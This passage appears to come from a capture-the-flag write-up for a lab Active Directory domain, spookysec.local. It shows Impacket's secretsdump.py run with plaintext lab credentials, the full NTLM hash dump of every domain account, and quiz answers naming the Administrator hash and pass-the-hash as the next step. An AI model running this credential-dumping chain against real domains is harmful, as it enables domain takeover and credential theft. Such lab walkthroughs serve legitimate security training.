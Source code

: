 ## Elevating Privileges within the Domain 

> Now that we have new user account credentials, we may have more privileges on the system than before.

Knowing this, we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

```bash
$ python3 /usr/local/bin/secretsdump.py -just-dc-ntlm spookysec.local/backup:backup2517860@$TARGET
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:0942ad72c183935a736ea0a211fabdec:::
```

### What method allowed us to dump NTDS.DIT?

`DRSUAPI`

### What is the Administrators NTLM hash?

`0e0363213e37b94221497260b0bcb4fc`

### What method of attack could allow us to authenticate as the user without the password?

[**Pass The Hash**](https://beta.hackndo.com/pass-the-hash/)

### Using a tool called Evil-WinRM what option will allow us to use a hash?
